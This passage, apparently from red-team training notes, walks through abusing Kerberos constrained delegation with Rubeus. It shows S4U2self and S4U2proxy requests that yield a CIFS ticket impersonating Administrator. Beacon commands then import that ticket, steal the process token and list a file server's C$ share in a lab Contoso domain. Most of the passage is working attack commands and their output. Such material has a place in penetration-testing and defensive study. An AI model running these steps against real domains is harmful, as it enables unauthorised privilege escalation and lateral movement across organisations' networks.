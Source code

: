 Rubeus will first use the principal's TGT to perform an S4U2self.

```powershell
[*] Action: S4U

[*] Building S4U2self request for: 'LON-WS-1$@CONTOSO.COM'
[*] Using domain controller: lon-dc-1.contoso.com (10.10.120.1)
[*] Sending S4U2self request to 10.10.120.1:88
[+] S4U2self success!
[*] Got a TGS for 'Administrator' to 'LON-WS-1$@CONTOSO.COM'
[*] base64(ticket.kirbi):

      doIF8[...snip...]MtMSQ=
```

If we pass this ticket to Rubeus `describe`, we'll see that the service name is the computer's own SamAccountName, the username is that of the user we want to impersonate, and the forwardable flag is set.

```powershell
PS C:\Users\Attacker> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe describe /ticket:doIF8[...snip...]MtMSQ=
```

![[Pasted image 20250721105545.png]]

Rubeus will take this ticket for us and uses it to submit an S4U2proxy request for the service specified in the `/msdsspn` parameter.  The ticket we get back will be a usable service ticket for the impersonated user.

```powershell
[*] Impersonating user 'Administrator' to target SPN 'cifs/lon-fs-1'
[*] Building S4U2proxy request for service: 'cifs/lon-fs-1'
[*] Using domain controller: lon-dc-1.contoso.com (10.10.120.1)
[*] Sending S4U2proxy request to domain controller 10.10.120.1:88
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'cifs/lon-fs-1':

      doIGf[...snip...]ZzLTE=
```

Since this is a service ticket for CIFS, we could use it to list the computer's C$ drive.

```powershell
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:CONTOSO.COM /username:Administrator /password:FakePass /ticket:doIGf[...snip...]ZzLTE=
  
[*] Using CONTOSO.COM\Administrator:FakePass

[*] Showing process : False
[*] Username        : Administrator
[*] Domain          : CONTOSO.COM
[*] Password        : FakePass
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 3380
[+] Ticket successfully imported!
[+] LUID            : 0x9b6c93
 
beacon> steal_token 3380
beacon> ls \\lon-fs-1\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     01/23/2025 15:44:52   $Recycle.Bin
          dir     01/23/2025 13:57:51   $WinREAgent
          dir     01/23/2025 13:47:37   Documents and Settings
          dir     02/20/2025 10:37:21   Files
```